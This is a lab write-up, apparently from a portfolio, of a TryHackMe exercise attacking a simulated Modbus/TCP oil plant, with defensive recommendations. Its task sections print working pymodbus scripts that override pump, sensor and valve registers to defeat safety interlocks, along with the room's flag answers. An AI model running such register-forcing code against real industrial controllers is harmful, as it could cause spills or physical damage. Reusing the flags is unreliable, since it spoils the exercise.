


# Attacking ICS Plant #2

**Category:** Industrial Control Systems (ICS) / SCADA Security
**Platform:** TryHackMe
**Difficulty (room-rated):** Medium
**Difficulty (personal assessment):** Easy
**Target:** VirtuaPlant (simulated oil plant, Modbus/TCP)
**Skills Demonstrated:** Modbus protocol enumeration, ICS register mapping, PLC register manipulation, Python scripting with `pymodbus`, physical-process abuse (overflow / mis-routing attacks)

---

## Scenario Overview

This room simulates an oil-processing plant ("VirtuaPlant") controlled by a PLC over the **Modbus/TCP** protocol (commonly used by Modicon / Schneider Electric equipment). The plant exposes a set of holding registers that represent physical actuators and sensors: a feed pump, a tank level sensor, an outlet valve, a separator vessel valve, and counters for spilled/processed oil and waste water.

The attacker's goal is not to gain code execution or steal credentials , it is to **directly manipulate the physical process** by writing arbitrary values to Modbus holding registers, since the protocol itself has no authentication. Two objectives were completed:

1. Force the oil tank to overflow for at least 60 seconds → retrieve `flag1.txt`.
2. Force oil to flow exclusively through the waste water valve until a counter register exceeds 2000 → retrieve `flag2.txt`.

---

## Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Confirm the target is reachable and identify the exposed Modbus (TCP/502) and HTTP services |
| `pymodbus` (Python library) | Programmatically read and write Modbus holding registers |
| `discovery.py` (custom, adapted from Attacking ICS Plant #1) | Continuously poll and print holding-register values to observe plant behavior |
| `set_register.py` (custom, adapted from Attacking ICS Plant #1) | One-off write to a single register for testing hypotheses about its function |
| VirtuaPlant web dashboard | Visual confirmation of plant state (pump, valves, tank level) while registers were manipulated |
| `curl` | Retrieve the flag files served over HTTP once each condition was met |

> 
> *Nmap results showing the lab machine's open ports, confirming Modbus/TCP (502) and the HTTP service used to serve `flag1.txt`/`flag2.txt`.*

> 
> *The VirtuaPlant dashboard showing the simulated oil plant , feed pump, tank, outlet valve, and separator , used to visually confirm each attack's effect in real time.*

---

## Step-by-Step Walkthrough

### Task 1 , Discovery: Identifying the PLC Registers

Before any attack could be built, each holding register had to be mapped to the physical component it controls:

- `PLC_FEED_PUMP` , opens/closes the feed pump
- `PLC_TANK_LEVEL` , tank level sensor
- `PLC_OUTLET_VALVE` , opens/closes the outlet valve
- `PLC_SEP_VALVE` , opens/closes the separator vessel valve
- `PLC_OIL_SPILL` , wasted-oil counter
- `PLC_OIL_PROCESSED` , processed-oil counter
- `PLC_WASTE_VALVE` , opens/closes the waste water valve

This room reuses the scripts and target setup from **Attacking ICS Plant #1**, so the existing `discovery.py` script (a simple polling loop around `read_holding_registers`) was reused to watch the register block live while interacting with the plant through the web dashboard and through targeted writes via `set_register.py`. Toggling one register at a time and correlating the change with what moved on the VirtuaPlant dashboard is what makes the mapping reliable , Modbus gives no register *names*, only numeric addresses, so behavioral correlation is the only way to build the map.

By observing the register array over time (feed pump running → tank filling → level sensor tripping → pump stopping/outlet opening), the following mapping was confirmed for this instance of the plant:

| Register # | Function | Notes |
|---|---|---|
| 1 | `PLC_FEED_PUMP` | 1 = pump running, 0 = stopped |
| 2 | `PLC_TANK_LEVEL` | Sensor trips (1) once the tank is full; forcing it to 0 tricks the PLC logic into thinking the tank is never full |
| 3 | `PLC_OUTLET_VALVE` | 0 = closed, 1 = open |
| 6 | `PLC_SEP_VALVE` | 0 = open, 1 = closed (inverted logic vs. the outlet valve) |
| 7 | `PLC_WASTE_VALVE` / waste counter | Doubles as the drop counter through the waste water valve |

**Findings table**

| Question | Answer |
|---|---|
| Prerequisite room | Attacking ICS Plant #1 (scripts reused) |
| Register controlling the feed pump | Register 1 |
| Register controlling the tank level sensor | Register 2 |
| Protocol in use | Modbus/TCP, port 502 |

---

### Task 2 , Flag #1: Forcing an Oil Tank Overflow

**Objective:** keep the oil overflowing the tank for at least 60 seconds, then read `flag1.txt` over HTTP.

The logic abused here is simple: in normal operation, the feed pump fills the tank until the level sensor (register 2) reports "full," at which point the plant safely stops the pump and opens the outlet valve. By continuously forcing register 1 (feed pump) to stay **on** while continuously forcing register 2 (tank level sensor) to stay **off**, the PLC never believes the tank is full , so the pump never stops, and the tank overflows indefinitely.

Using `attack_move_fill.py` from Attacking ICS Plant #1 as a base (it already contains the connect-and-loop-write pattern needed here), the following script was written and named `overflow_attack.py`:

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()

while True:
    client.write_register(1, 1)  # Force Feed Pump ON
    client.write_register(2, 0)  # Force Tank Level Sensor to "not full"
```

Run against the lab target and left running for over 60 seconds:

```bash
python3 overflow_attack.py 10.49.185.37
```

> 📷 **[Placeholder: Screenshot , "overflow_attack.py result"]**
> *Terminal output of `overflow_attack.py` running against the target, alongside the VirtuaPlant dashboard visibly overflowing as the feed pump stays on and the level sensor is suppressed.*

Once the overflow condition had been sustained past the 60-second mark, the flag was retrieved:

```bash
curl http://10.49.185.37/flag1.txt
```

**Findings table**

| Question | Answer |
|---|---|
| Read `flag1.txt` | `0df2936b4cfbd5ce3ae91ef7021d925a` |

---

### Task 3 , Flag #2: Routing Oil Exclusively Through the Waste Water Valve

**Objective:** route oil through the waste water valve only, until its counter passes 2000, then read `flag2.txt`.

With the outlet valve (register 3) and separator vessel valve (register 6) mapped, the same "force it and hold it" technique was applied , this time keeping the feed pump running, the tank level sensor suppressed, the outlet valve forced open, and the separator vessel valve forced closed, so that all flow is diverted to waste rather than to normal processing. Register 7 acts as both the waste-valve state and its own throughput counter, so simply keeping the plant in this state drives that counter up over time.

`waste_water.py`, again adapted from the `attack_move_fill.py` pattern:

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()

while True:
    client.write_register(1, 1)  # Feed Pump ON
    client.write_register(2, 0)  # Tank Level Sensor suppressed
    client.write_register(3, 1)  # Outlet Valve OPEN
    client.write_register(6, 1)  # Separator Vessel Valve CLOSED , force flow to waste
```

```bash
python3 waste_water.py 10.49.185.37
```

> 📷 **[Placeholder: Screenshot , "waste_water.py result"]**
> *Terminal output of `waste_water.py` running, with the polling register dump showing register 7 (waste counter) climbing past 2000 while the plant is held in the forced state.*

Once register 7 exceeded 2000, the flag was retrieved:

```bash
curl http://10.49.185.37/flag2.txt
```

**Findings table**

| Question | Answer |
|---|---|
| Read `flag2.txt` | `fdee450ac6627276d115dd905a256d49` |

---

## Attack Chain Summary

```
Recon (nmap) → Modbus/TCP (502) identified, no auth
      ▼
discovery.py → Poll holding registers, correlate with dashboard state
      ▼
set_register.py → Confirm register-to-function hypotheses one at a time
      ▼
overflow_attack.py → Hold pump ON + suppress level sensor → tank overflow ≥60s → flag1
      ▼
waste_water.py → Hold pump ON + suppress level sensor + open outlet + close separator
      ▼
Waste counter (register 7) > 2000 → flag2
```

---

## MITRE ATT&CK for ICS , Relevant Techniques

Rather than a dedicated mapping table, the techniques observed are noted inline against the steps above, since the scope of this room is narrow (a single unauthenticated Modbus service):

- **Discovery.py polling** corresponds to *Network Sniffing / Monitor Process State* behavior , an adversary observing PLC register state to infer process logic before acting.
- **set_register.py / overflow_attack.py / waste_water.py** correspond to *Unauthorized Command Message* and *Modify Parameter* techniques , writing to Modbus holding registers without any authentication to directly override actuator and sensor state.
- The overflow and mis-routing attacks are examples of *Loss of Control* / *Manipulation of Control* impact categories, where the adversary's goal is a physical safety or process-integrity consequence rather than data theft.

These are supplementary observations for portfolio context and should be re-validated against the current MITRE ATT&CK for ICS matrix before being cited formally.

---

## OWASP Applicability

Not applicable. This engagement targets an **industrial control / OT protocol (Modbus/TCP)**, not a web application , there is no injection, authentication, or session-management surface of the kind OWASP Top 10 addresses. A more fitting reference framework here is **MITRE ATT&CK for ICS**, which is built specifically around PLC/SCADA adversary behaviors like the register-manipulation techniques demonstrated above.

---

## Key Findings & Risk Summary

| Weakness | Impact | Recommendation |
|---|---|---|
| Modbus/TCP has no built-in authentication or encryption | Any network-connected host can read and write arbitrary PLC registers, directly manipulating physical processes | Segment ICS/OT networks from IT networks; use industrial firewalls/protocol-aware gateways; where possible, layer authentication via a secure Modbus variant or a VPN/allowlist in front of port 502 |
| Register functions are undocumented/opaque externally but easily inferred by correlating writes with observable plant behavior | An attacker with network access but no insider knowledge can still fully reverse-engineer the control logic in minutes | Treat "security through obscurity" of register maps as no mitigation at all; rely on network-level access control, not protocol opacity |
| No sanity/bounds checking on register writes (e.g., forcing a "tank full" sensor to always read false) | Safety interlocks can be silently defeated, leading to real-world overflow/spill conditions in a production analog | Implement independent hardware-level safety interlocks that cannot be overridden purely by software register writes |

---

## Key Takeaways

- Modbus/TCP was designed for trusted, isolated industrial networks and has **no authentication by default** , any client that can reach port 502 can read or write any register.
- ICS attacks often don't need "exploits" in the traditional sense; simply writing the *wrong* value to the *right* register can defeat safety logic entirely.
- Passive observation (polling registers while interacting with the physical/simulated process) is usually enough to reverse-engineer an undocumented register map.
- Reusing and adapting a known-good script pattern (`attack_move_fill.py` → `overflow_attack.py` / `waste_water.py`) is a practical way to iterate quickly once the connect/loop/write pattern is established.
- Small logic flips (forcing a sensor to always read "not full," inverting a valve's expected state) can cascade into large physical consequences , a key reason ICS environments need defense-in-depth beyond the protocol layer.
- Network segmentation and protocol-aware monitoring matter far more than "hiding" register semantics, since register functions are trivially discoverable through behavioral correlation.

---

## References

- TryHackMe , *Attacking ICS Plant #2* room (prerequisite: *Attacking ICS Plant #1*)
- VirtuaPlant , simulated ICS plant, https://github.com/Aperture-Labs/VirtuaPlant
- MITRE ATT&CK for ICS , https://attack.mitre.org/matrices/ics/
- `pymodbus` documentation , https://pymodbus.readthedocs.io/
